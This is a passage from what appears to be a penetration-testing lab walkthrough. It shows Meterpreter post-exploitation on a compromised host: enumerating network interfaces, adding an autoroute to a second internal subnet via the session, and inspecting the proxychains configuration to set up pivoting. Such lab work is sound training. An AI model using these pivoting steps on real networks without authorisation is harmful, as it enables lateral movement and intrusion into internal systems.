 ```
Interface 324844
============
Name         : eth0
Hardware MAC : 02:42:c0:c0:d1:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.192.209.3
IPv4 Netmask : 255.255.255.0


Interface 324846
============
Name         : eth1
Hardware MAC : 02:42:c0:b4:63:02
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.180.99.2 ←
IPv4 Netmask : 255.255.255.0 ←
```

**Step 9**.

`run autoroute -s 192.180.99.0/24`: [✓]
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.180.99.0/255.255.255.0...
[+] Added route to 192.180.99.0/255.255.255.0 via 192.192.209.3 ←
[*] Use the -p option to list all active routes
```

`run autoroute -p`: [✓]
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.180.99.0       255.255.255.0      Session 1 ←
```

`bg`, `proxychains --version`: [✓]
```
[*] exec: proxychains --version

[proxychains] config file found: /etc/proxychains4.conf ←
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
proxychains can't load process....: No such file or directory
```

`cat /etc/proxychains4.conf`: [✓]
```
...

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050 ←
```
